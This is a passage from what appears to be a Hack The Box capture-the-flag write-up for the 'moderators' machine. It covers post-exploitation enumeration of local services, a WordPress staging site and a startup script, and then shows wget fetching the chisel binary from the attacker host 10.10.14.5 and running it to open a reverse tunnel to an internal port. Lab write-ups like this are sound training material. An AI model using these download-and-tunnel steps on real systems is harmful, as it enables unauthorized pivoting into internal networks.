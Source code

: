 ```bash
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:8080          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -    
```
- There is nothing of use in `/var/www/html`
- We find what seems to be a new version of the site under `/opt/site.new/`
	- We're unable to read `wp-config.php`
	- There are two installed plugins, `brandfolder` & `passwords-manager`, found under `/opt/site.new/wp-content/plugins`
- Running `ps aux` we can see that user `lexi` runs a script (`/usr/local/sbin/startup.sh`) to start the webserver in `/opt/site.new/`

```bash
$ ps aux
root         822  0.0  0.0   8368  3748 ?        Ss   07:20   0:00 /usr/sbin/runuser -u lexi /usr/local/sbin/startup.sh
lexi         865  0.0  0.0   2608   596 ?        S    07:20   0:00 /bin/sh /usr/local/sbin/startup.sh
lexi         866  0.0  0.7 228360 31740 ?        S    07:20   0:00 /usr/bin/php -S 127.0.0.1:8080 -t /opt/site.new/

$ cat /usr/local/sbin/startup.sh
#!/bin/sh
/usr/bin/php -S 127.0.0.1:8080 -t /opt/site.new/
```

Upload `chisel` and setup a tunnel to start enumerate the local webservice. <br>
**Note:** Port 8080 collides with my proxy settings, so I need to close this before setting up chisel.

```bash
# Start server locally
➜  chisel_1.7.7 ./chisel_1.7.7_linux_amd64 server -p 4444 -reverse

# Upload and run chisel client
www-data@moderators:/dev/shm$ wget http://10.10.14.5/chisel_1.7.7_linux_amd64
www-data@moderators:/dev/shm$ chmod +x chisel_1.7.7_linux_amd64
www-data@moderators:/dev/shm$ ./chisel_1.7.7_linux_amd64 client 10.10.14.5:4444 R:8080:127.0.0.1:8080
2022/09/05 08:34:41 client: Connecting to ws://10.10.14.5:4444
2022/09/05 08:34:41 client: Connected (Latency 27.873433ms)
```

The new site is a total mess, probably because it refers to `moderators.htb` which I'm to lazy to fix in `/etc/hosts`.